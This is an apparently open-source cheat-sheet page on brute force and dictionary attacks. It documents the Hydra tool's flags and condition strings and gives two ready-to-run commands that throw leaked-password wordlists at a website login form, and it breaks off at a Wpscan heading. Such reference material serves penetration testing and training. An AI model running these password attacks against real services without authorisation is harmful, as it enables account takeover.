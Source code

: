 <!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](./README.md)

# Brute Force Attacks

**Brute force attacks** are attacks where an attacker tries all possible combinations of usernames and passwords until the correct one is found.

**Dictionary attacks** are attacks where an attacker tries a pre-defined set of usernames and passwords until the correct one is found.

Often it isn't practical to do brute force attack and that's why dictionary attacks are used instead.

## Table of Contents

<!-- TOC -->

- [Brute Force Attacks](#brute-force-attacks)
	- [Table of Contents](#table-of-contents)
	- [Hydra](#hydra)
	- [Wpscan](#wpscan)

<!-- /TOC -->

## [Hydra](#table-of-contents)
Hydra is a tool for doing dictionary attacks on websites.

If an http form prevents default and submits via javascript then hydra won't work.

`sudo hydra [-l Login|-L File] [-p PASS|-P File] [-u][-f][IP Address|Domain name] [-s Port] [Module] [url]:[form parameters]:[condition string]`

| Flags    | Description                                                  |
|----------|--------------------------------------------------------------|
| -l Login | Login name                                                   |
| -L File  | File of logins to use                                        |
| -p Pass  | Password to use                                              |
| -P File  | File of passwords to use                                     |
| -u       | Try every username for each password                         |
| -f       | Stop trying to find passwords once the first match is found. |
| Module   | A Module is a service to attack. Ex: http-post-form, mysql5, ssh, etc          |
| -s Port  | Different from the default port.                             |

| Port name                   | Default port |
|-----------------------------|--------------|
| FTP(File transfer protocol) | 21           |
| SSH(Secure shell)           | 22           |
| HTTP                        | 80           |
| HTTPS                       | 443          |

The **form parameters** are the parameters sent via the url when the form submits.

The **condition string** tells hydra when to stop trying passwords or to continue trying passwords.
  - If you want to define something when the login is successful use `:F=<`. This could be the login form itself.
  - If you want to define something when the login fails use `:`. This could be the error message when the login fails.

^USER^ is the username given by hydra.

^PASS^ is the password given by hydra.

Example:
```
// When condition string is when the login fails:
  sudo hydra -L ./SecLists/Usernames/top-usernames-shortlist.txt -P ./SecLists/Passwords/Leaked-Databases/rockyou-75.txt -u -f example.com http-post-form "/path:user=^USER^&password=^PASS^:Invalid credentials"
// When condition string is when the login was successful:
  sudo hydra -L ./SecLists/Usernames/top-usernames-shortlist.txt -P ./SecLists/Passwords/Leaked-Databases/rockyou-75.txt -u -f example.com http-post-form "/path:user=^USER^&password=^PASS^:F=<form name='login'"
```

## [Wpscan](#table-of-contents)